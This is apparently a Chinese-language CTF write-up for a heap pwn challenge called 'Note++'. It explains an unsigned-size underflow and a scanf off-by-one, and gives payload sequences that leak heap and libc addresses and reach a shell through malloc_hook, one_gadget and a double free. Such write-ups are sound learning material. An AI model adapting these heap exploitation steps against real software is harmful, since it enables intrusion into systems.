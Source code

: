 # Note++ [400]

**python3 note++.py**

保護機制全開
 

題目提供一個Note的表單，我們可以通過表單下3個指令：
1. add：malloc一個表單，但大小不能超過0x78。然後我們可以為表單寫一個最多長度48的敘述。表單數量最大值為10。以下是表單的結構。每個新的表單會對應一個is\_freed 的參數被設為0。
```
struct Note{
    int is_freed;
    char *data;
    char description[48];
};
```

2. show：印出所有表單的內容，如果他的is\_freed是1會表單沒內容則跳過。
3. delete：刪除一個表單，清空malloc的內容，並且將對應的is\_freed設為1。
題目的漏洞主要有兩處，我最先看到的是read\_input 的漏洞
```
int read_input( char *buf , unsigned int size ){
    int ret = __read_chk( 0 , buf , size , size );
    if(ret <= 0){
        puts("read error");
        _exit(1);
    }
    if(buf[ret-1] == '\n'){
        buf[ret-1] = '\0';
    }
    return ret;
}
```

看上面的函式的實做其實是沒有漏洞的，但漏洞發生在新增時呼叫的方式。
```
notes[i].data = malloc( size );
read_input( notes[i].data , size - 1 );
```

size 本身的型別是 unsigned int。當size被減一時原本如果輸入size為0。已經malloc 0x20的空間變得可以輸入0xff的資料。可以用這個方式改變資料在後續位置的內容。

第二個漏洞和顯示有關，宣告時description只宣告48的長度。但輸入時使用的函式為：
```
scanf( "%48s" , notes[i].description );
```

scanf 的特性會讓輸入的下一個byte補上0x00。所以可以用此方法讓下個Note的is\_freed被覆寫成0。於是可以show出它的內容(如果有的話)。

首先多收集一些資訊。我想先leak出heap\_base的值(而且之後有用到)，於是簡單構造leak 的 payload 如下：
```
#add(Size, Note, description)
#delete(index)
add(0x18, 'aaaaaaaa', '00')
add(0x58, 'bbbbbbbb', '10')
add(0x58, 'bbbbbbbb', '10')
delete(0)
delete(1)
add(0x18, 'aaaaaaaa', 'd' * 48)
delete(2)
delete(1)
delete(0)
```

構造兩個大小一樣的note之前放一個修改is\_freed的Note。依序free第二個和第一個可以讓第一個Note中記錄前一個的位置，然後修改掉第一個is\_freed的值，即可用show指令把heap\_base+??? 打印出來。

但如果沒辦法得到libc\_base一樣做不到太多事。題目沒有太多的漏洞所以依舊要重malloc下手。如果能夠造出一個small bin 然後free掉他，他的內容會記錄main\_arena的位置，用上述的方式印出資料。也就是間接地透露出libc\_base。我們擁有輸入size = 0 修改0xff個bytes的能力，這件事就沒有那麼困難了。先看以下payload：
```
add(0x08, 'aaaa', 'zero')               # index = 2
add(0x68, 'bbbbbbbb', 'frist')
add(0x68, '\x00' * 0x18 + p64(0x51), 'second')
delete(2)
add_byte(0x0, b'\x00' * 0x18 + p64(0x91), 'note' )
delete(3)
delete(2)
```

先創造一個 0x20的Note用他來把下一個Note的大小設為smallbin。但直接強印設置會吃錯誤，他會檢查chunk到top chunk 的位置是否正確。所以之後要多設置一個假的位置。如下：0x51是我們設置的內容但這樣可以躲過top chunk 位置的檢查。
```
0x0000000000000000 0x0000000000000091	(index 2)
…
0x0000000000000000 0x0000000000000071	(index 3)
0x0000000000000000 0x0000000000000001
0x0000000000000000 0x0000000000000051
```

得到libc\_base後就可以朝 \_\_malloc\_hook 寫資料了，這段就不贅述了，用 -0x03的方式讓位置檢查合法後找一個one\_gadget塞到malloc\_hook中。然後malloc資料後就……crash了。當前沒有任何一個one\_gadget符合constraint。於是進入了卡關階段。

我開始想有沒有其他的方式可以RCE。看了看free的函式。
```
free( notes[idx].data );
```

如果我data裡面放 /bin/sh，然後把free蓋成system不是就可以拿到shell嗎？但 \_\_free\_hook前面一片平坦，這樣無法躲過檢查。而GOT table那邊也沒有可寫入的權限。(現在想了想我也不知道pie\_base)。最後想到double free 的方式。

這題有一個is\_freed 的檢查，構造double free 雖然麻煩了點但還是可以做到。構造完成後我直接用gdb追下去，到malloc\_printerr函式中發現剛好有一個one\_gadget的constraint是符合的，於是有點僥倖的拿到了shell。


`FLAG{Heap_exp1oit4ti0n_15_fun}`
